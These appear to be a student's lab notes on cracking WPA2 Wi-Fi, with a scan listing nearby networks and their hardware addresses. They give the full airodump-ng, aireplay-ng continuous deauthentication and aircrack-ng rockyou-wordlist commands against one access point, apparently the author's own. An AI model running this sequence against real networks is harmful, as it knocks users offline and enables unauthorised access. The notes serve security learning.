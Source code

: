 ```yaml
---
title: Screenshots WPA2 cracking
updated: 2023-03-06 03:30:09Z
created: 2023-03-03 23:00:07Z
completed?: no
---
```


![1da6f344611dd8ed5767e7edb8b80615.png](../_resources/1da6f344611dd8ed5767e7edb8b80615-1.png)

![b652faba2a8bb4801b7c65fbd6ac6eac.png](../_resources/b652faba2a8bb4801b7c65fbd6ac6eac-1.png)

![5136e7fbbdde5507b07794424df2fa4b.png](../_resources/5136e7fbbdde5507b07794424df2fa4b-1.png)

BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID

34:2C:C4:C9:9D:08 -83 39 0 0 6 130 WPA2 CCMP PSK telenet-5181C

36:2C:B4:C9:9D:08 -83 45 0 0 6 130 WPA2 CCMP PSK TelenetWiFree

1C:64:99:56:6F:BA -76 118 8 0 6 130 WPA2 CCMP PSK telenet-2B9D9

9A:8D:A7:4A:E1:1B -41 12 0 0 1 360 WPA2 CCMP PSK Ayoub Has Giveth Thee Consent

sudo airodump-ng -w hack1 -c 1 --bssid 9A:8D:A7:4A:E1:1B wlan0

sudo aireplay-ng --deauth 0 -a 9A:8D:A7:4A:E1:1B wlan0

aircrack-ng hack1-01.cap -w /var/run/vmblock-fuse/blockdir/TGdFdW/rockyou.txt

![a13f02ed6005c0b6002358505dce8ae4.png](../_resources/a13f02ed6005c0b6002358505dce8ae4-1.png)

restart web services:

service NetworkManager restart
![765dc9175e9a37ad5d62911726738d29.png](../_resources/765dc9175e9a37ad5d62911726738d29-1.png)